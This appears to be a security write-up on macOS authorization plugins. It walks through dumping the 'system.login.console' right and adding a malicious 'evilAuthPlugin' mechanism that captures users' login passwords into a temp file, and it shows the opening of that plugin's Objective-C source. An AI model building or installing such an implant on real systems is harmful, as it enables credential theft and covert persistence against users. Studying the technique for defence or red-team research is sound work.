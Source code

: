 the `mechanisms` array has a format of `<plugin>:<mechanism>`, and occasionally `,privileged`, which means it runs as root. all these mechanisms need to return `kAuthorizationResultAllow`, otherwise the entire process fails. each plugin in this list gets called in order, as well.


the two main components of authorization in macOS are a user-and-owner model from BSD that applies to files + folders, and policy-based authorization requests for greater granularity. appls pass a list of requested rights to the Security Server which compares them against the authorization database. if there's no valid cache entry, users might have to authenticate.


you can track rules + rights requested for certain actions, which is useful to see which rights are needed where.

```bash
$ sudo log show --style syslog --predicate 'subsystem == "com.apple.Authorization" && eventMessage CONTAINS[c] "validating credential"' --last 8h
Filtering the log data using "subsystem == "com.apple.Authorization" AND composedMessage CONTAINS[c] "validating credential""

Skipping info and debug messages, pass --info and/or --debug to include.

Timestamp                       (process)[PID]    
2024-10-10 09:21:47.878819-0400  localhost authd[445]: [com.apple.Authorization:authd] Validating credential bilal (501) for use-login-window-ui (engine 3299)
```

it's becoming increasingly likely that we can install our own authorization plugin into a system. first, i need to dump a copy of the right that i need (`system.login.console`): `security authorizationdb read system.login.console > poc.plist`.

since i want to create my own plugin and add it to the list after the user's password is confirmed (by `HomeDirMechanism` returning `true`), i'll need to craft some code and use the functions `AuthorizationRightGet` and `AuthorizationRightSet`. modifying the code taken from [here](https://github.com/alex030/UserConfigAgent/blob/42e3d786d52604b3cfbcdf8c77320093684626d7/UserConfigAgentPlugin/main.m) (which is a UserConfigAgent program written in Objective-C), it should allow us to create an implant that will store the user's password when they log back in.

this is the `main.m` function of the `evilAuthPlugin` [program](https://github.com/xorrior/macOSTools/tree/master/auth_plugins/evilAuthPlugin). you can modify the `MechanismInvoke()` function to perform any action, but for now it just saves the user's password to `/private/tmp/password.txt`.

```objc
#import <Foundation/Foundation.h>
#import <Security/AuthorizationPlugin.h>
#include <Security/AuthSession.h>
#include <Security/AuthorizationTags.h>
#include <CoreServices/CoreServices.h>
#include "Common.h"
#include <syslog.h>
#include <unistd.h>


#define kKMAuthAuthorizeRight "authorize-right"
#define kMechanismMagic "MLSP"
#define kPluginMagic "PlgN"

struct PluginRecord {
    OSType                          fMagic;         // must be kPluginMagic
    const AuthorizationCallbacks *  fCallbacks;
};

typedef struct PluginRecord PluginRecord;

struct MechanismRecord {
    OSType                          fMagic;         // must be kMechanismMagic
    AuthorizationEngineRef          fEngine;
    const PluginRecord *            fPlugin;
```